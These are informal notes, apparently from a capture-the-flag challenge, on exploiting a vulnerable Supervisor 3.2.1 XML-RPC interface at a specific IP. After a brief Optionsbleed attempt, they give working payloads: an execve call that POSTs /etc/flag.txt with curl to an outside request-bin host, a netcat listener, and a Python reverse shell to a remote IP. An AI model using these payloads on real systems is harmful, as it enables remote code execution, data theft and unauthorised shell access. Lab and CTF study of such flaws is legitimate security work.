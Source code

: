 i dont know if this supervisor was part of the challenge but messing with it definitely crashed the shit out of it.

so back onto apache until i can reach one of the security guys to see if i stumbled on a mistake.

seems like apache is also vulnerable to something that will cause the bleed of extra information
https://blog.fuzzing-project.org/60-Optionsbleed-HTTP-OPTIONS-method-can-leak-Apaches-server-memory.html

nope forcing the server didnt yield anything.


the vulnerable version of supervisor.
https://github.com/Supervisor/supervisor/archive/3.2.1.tar.gz


reviewing the downloaded code it appears to be vulnerable, so why have my attempts been fruitless?  i need more information.

lets run a docker environment to find some logs

```
docker run --rm  -ti -p 9001:9001 -v `pwd`/supervisor-3.2.1/:/supervisor ubuntu 
```


since ubuntu is very minimal i installed python, and vim, created the supervisord.conf and committed the docker image
now i got a server i can keep running (in docker) and hopefully can exploit, that way i have something working to try on real one.

in python shell we can type
```
from xmlrpclib import ServerProxy
server = ServerProxy('http://54.153.0.160/RPC2')
server.supervisor.supervisord.options.execve("/usr/bin/curl", ["-vv", "-d", "@/etc/flag.txt", "-X", "POST", "http://ptsv2.com/t/wooh/post"], {})
```

use the config
```
```

start the supervisor using config file
```
supervisord -n -c supervisord.conf
```


lets get a remote shell going
142.93.194.254
```
root@hackbox:~# nc -vlp 4444                                                                                      
Listening on [0.0.0.0] (family 0, port 4444) 
```

possible reverse
```python
server.supervisor.supervisord.options.execve("python", ['-c', 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("142.93.194.254",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'], {})
```
